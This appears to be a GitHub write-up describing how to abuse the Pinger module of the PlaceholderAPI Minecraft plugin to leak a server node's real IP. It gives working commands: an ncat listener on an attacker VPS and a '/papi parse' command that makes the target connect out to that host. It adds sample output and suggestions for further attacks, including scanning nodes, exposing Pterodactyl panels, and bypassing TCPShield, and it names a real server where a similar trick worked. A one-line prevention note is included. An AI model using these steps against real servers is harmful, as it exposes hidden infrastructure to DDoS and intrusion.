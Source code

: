 # PlaceholderAPI getting node IP method.

### Overview
PlaceholderAPI is a plugin made for getting variables such as a bungee's server online number.

### Analysis
We are going to focus on one module. It is called "Pinger". It is made to check if minecraft server's are online. We can use this method for example:
```
%pinger_isonline_0.0.0.0:25566%
```

I guess you already know where I am going. Minecraft uses packets for transportating data such as block placement from other players etc. What I want to go is that we can make this module check for our server using a PlaceholderAPI's command.

### Exploiting
We need a VPS server or a server that can receive connections from anywhere in the world. In this case I'm going to use a VPS.
(port) = A number from 1-65535.
(server_ip) = The vps' IP.

VPS-SIDE:
1. We need to install `ncat` on our VPS.
    * `apt-get install ncat`
2. Then we listen for connections.
    * `ncat -lnvp (port)`

ATTACK-SIDE:
1. If not already installed. We install Pinger.
    * `/papi ecloud download Pinger`
2. Easy. Run a test with the following command and then wait on our terminal.
    * `/papi parse me %pinger_isonline_(server_ip):(port)%`

We will then get an output like this:

```c
Ncat: Connection from 212.192.29.22.
Ncat: Connection from 212.192.29.22:37100.
```

### Prevention
As right know. I only would know one method and it is to block PlaceholderAPI's commands or block connections to unauthorized servers.

### What we can do with the IP?
- Scan the server in case we can get more information, such as Pterodactyl domain which we can expose whole server nodes/get the panel.
- If we are in the situation that we just get into a Build Server through a TCPShield' server. Pinger sometimes is installed for no reason so we can just send the message in chat and wait. This happened to me in Hycraft but with FastAsyncWorldEdit method.
